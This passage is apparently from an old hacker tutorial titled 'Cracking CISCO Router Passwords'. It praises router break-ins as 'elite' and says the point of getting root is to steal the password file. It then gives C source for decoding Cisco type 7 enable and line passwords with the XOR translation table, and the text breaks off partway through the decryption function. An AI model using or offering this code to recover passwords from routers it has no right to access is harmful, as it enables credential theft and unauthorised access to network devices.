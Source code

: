  

 

Cracking CISCO Router Passwords
 
 Cisco Router hacking is considered to be extra elite and really kewl. It is really a great exercise for your gray cells, especially if the target system has Kerberos, a Firewall and some other Network Security software installed. Anyway, almost always the main motive behind getting root on a system is to get the password file. Once you get the Router password file, then you need to be able to decrypt the encrypted passwords stored by it. Well, in this section, we will learn just that.
 
The following is a C program which demonstrates how to decrypt a CISCO password.
_______________________________
 
#include 
#include 
 
char xlat[] = {
        0x64, 0x73, 0x66, 0x64, 0x3b, 0x6b, 0x66, 0x6f,
        0x41, 0x2c, 0x2e, 0x69, 0x79, 0x65, 0x77, 0x72,
        0x6b, 0x6c, 0x64, 0x4a, 0x4b, 0x44
};
 
char pw_str1[] = "password 7 ";
char pw_str2[] = "enable-password 7 ";
 
char *pname;
 
cdecrypt(enc_pw, dec_pw)
char *enc_pw;
char *dec_pw;
{
        unsigned int seed, i, val = 0;
 
        if(strlen(enc_pw) & 1)
                return(-1);
 
        seed = (enc_pw[0] - '0') * 10 + enc_pw[1] - '0';
 
        if (seed > 15 || !isdigit(enc_pw[0]) || !isdigit(enc_pw[1]))
                return(-1);
 
        for (i = 2 ; i <= strlen(enc_pw); i++) {
                if(i !=2 && !(i & 1)) {
                        dec_pw[i / 2 - 2] = val ^ xlat[seed++];
                        val = 0;
                }
 
                val *= 16;
 
                if(isdigit(enc_pw[i] = toupper(enc_pw[i]))) {
                        val += enc_pw[i] - '0';
                        continue;
                }
 
                if(enc_pw[i] >= 'A' && enc_pw[i] <= 'F') {
                        val += enc_pw[i] - 'A' + 10;
                        continue;
                }
 
